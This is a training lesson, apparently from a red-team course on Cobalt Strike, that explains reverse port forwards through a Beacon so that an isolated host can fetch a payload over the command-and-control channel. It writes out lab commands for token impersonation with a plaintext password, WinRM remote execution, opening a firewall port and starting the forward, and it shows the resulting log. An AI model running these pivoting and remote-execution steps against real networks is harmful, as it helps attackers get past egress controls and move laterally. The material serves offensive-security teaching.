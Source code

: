 # Reverse Port Forwards

I find it useful to think of reverse port forwards as the opposite of of SOCKS.  Rather than tunnelling traffic in from the outside, a reverse port forward allows an adversary to tunnel traffic out from the inside.  Some computers, such as servers, are often restricted from sending traffic onto the Internet or out of their network segment.  Reverse port forwards allow these restrictions to be circumvented by pivoting the traffic through a Beacon to which the computer can communicate with.

The syntax of the `rportfwd` command is `rportfwd [bind port] [forward host] [forward port]`.

* This instructs the Beacon to begin listening on the _bind port_.  Any traffic that hits this port is sent back to the team server over the C2 channel.
* The team server will forward the traffic to the _forward host_ and _forward port_.
* If there is a response, the team server will send it back to Beacon over the C2 channel.
* Beacon then forwards that response to the original caller.

One scenario where the reverse port forward can be useful is when you have remote command execution on a target computer, but no ability to upload a payload to it.  In those cases, tricks like PowerShell download cradles are good because you command the computer to download the payload from a remote resource.  However, as mentioned, that computer may not have Internet access to pull it from anywhere.  This can be circumvented by starting a reverse port forward on a Beacon that the target computer can talk to.

First, let's demonstrate that _lon-ws-1_ cannot download a file directly from the team server.

```batch
beacon> make_token CONTOSO\rsteel Passw0rd!
beacon> remote-exec winrm lon-ws-1 iwr http://www.bleepincomputer.com/test
```

This will return the error:  "Unable to connect to the remote server".

Running a reverse port forward in itself does not necessarily require local admin access because standard users are allowed to bind to high ports.  Binding to common ports such as 80, 443, 8080, etc, will require local admin access.  The bigger hurdle is the inbound firewall rules on the computer Beacon is running on because it will block all inbound traffic by default, unless an explicit allow rule is added.  And you do need local admin access for that.

First, add a firewall rule to allow port 28190 inbound.

```batch
beacon> run netsh advfirewall firewall add rule name="Debug" dir=in action=allow protocol=TCP localport=28190
```

Then start the reverse port forward on that port.  We'll have the team server forward the traffic to itself on port 80 (where it will hit its own internal web server).

```batch
beacon> rportfwd 28190 localhost 80
[+] started reverse port forward on 28190 to localhost:80
```

Finally, run iwr on _lon-ws-1_ again, but point it at lon-wkstn-1 on the reverse port forward port.&#x20;

```batch
beacon> remote-exec winrm lon-ws-1 iwr http://lon-wkstn-1:28190/test
```

This time it will return a 404 and we'll see a corresponding record in Cobalt Strike's web log (**View > Web Log**).

```batch
02/19 11:09:44 visit (port 80) from: 127.0.0.1
    Request: GET /test
    Response: 404 Not Found
    Mozilla/5.0 (Windows NT; Windows NT 10.0; en-GB) WindowsPowerShell/5.1.20348.2849
```

To clean-up, we'd simply stop the reverse port forward and remove the firewall rule.

```batch
beacon> rportfwd stop 28190
beacon> run netsh advfirewall firewall delete rule name="Debug"
```
